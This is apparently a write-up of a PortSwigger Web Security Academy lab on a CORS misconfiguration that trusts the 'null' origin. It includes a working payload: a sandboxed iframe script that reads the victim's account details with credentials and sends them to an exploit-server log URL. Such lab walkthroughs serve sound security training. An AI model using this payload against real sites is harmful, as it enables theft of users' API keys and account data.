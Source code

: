 
# CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

---------------------------------------------

References: 

- https://portswigger.net/web-security/cors



![img](images/CORS%20vulnerability%20with%20trusted%20null%20origin/1.png)

---------------------------------------------

We have user's information in /accountDetails:



![img](images/CORS%20vulnerability%20with%20trusted%20null%20origin/2.png)



We will send the payload:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a9e008604151c3181d9023f008a00cf.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a8d00d304c31c4a8174019d019500e6.exploit-server.net//log?key='+this.responseText;
};
</script>"></iframe>
```

We get a request from the administrator user:



![img](images/CORS%20vulnerability%20with%20trusted%20null%20origin/3.png)

